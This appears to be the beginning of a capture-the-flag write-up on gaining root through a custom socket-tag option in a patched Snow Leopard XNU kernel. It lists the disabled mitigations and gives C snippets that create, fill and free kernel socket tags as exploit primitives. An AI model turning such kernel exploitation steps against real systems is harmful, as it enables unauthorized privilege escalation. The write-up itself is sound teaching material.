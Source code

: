 # Solving the Challenge

You're going to want a copy of the [`xnu-1456.1.26` source](https://github.com/apple-oss-distributions/xnu/tree/xnu-1456.1.26) with the patches applied open while working on this.

We are an unprivileged user and would like to elevate our privileges to root via gaining arbitrary kernel code execution.

First, let's take a look at what mitigations are present on Snow Leopard:
- SMAP/ SMEP are disabled
- kASLR is disabled
- Heap randomization and `kalloc_type` are not present on Snow Leopard

A binary exploitation author's dream!

## Working with Sotags
Let's start from the beginning- how do we interact with socket tags?

Take a look at `bsd/kern/uipc_socket.c:3233` (the `SO_SOTAG_MODE` option of `sosetopt`).
This is where three of the four sotag options are implemented- we can create a socket tag, edit a socket tag, and delete a socket tag.

Let's begin by creating a socket and attaching a sotag to it:

```c
// Create a socket
int fd=socket(AF_INET, SOCK_STREAM, 0);

// Setup a setsockopt control structure with our command (CTF_CREATE_TAG)
struct sotag_control opts;
opts.cmd = CTF_CREATE_TAG;
bzero(&opts.payload, sizeof(opts.payload));

// Create a sotag on this socket
setsockopt(fd, SOL_SOCKET, SO_SOTAG_MODE, &opts, sizeof(opts));
```

We can now edit the contents of the tag with the following:

```c
// Set the sotag user-controlled string to "AAAA..."
opts.cmd = CTF_EDIT_TAG;
memset(&opts.payload, 'A', sizeof(opts.payload));
setsockopt(fd, SOL_SOCKET, SO_SOTAG_MODE, &opts, sizeof(opts));
```

If you have a kernel debugger setup (eg. with `Qemu`'s gdb stub), you can pause the kernel and you should see your socket tag has been filled with user controlled bytes.

Lastly, we can free the socket tag with:

```c
// Free the sotag
opts.cmd = CTF_REMOVE_TAG;
setsockopt(fd, SOL_SOCKET, SO_SOTAG_MODE, &opts, sizeof(opts));
```
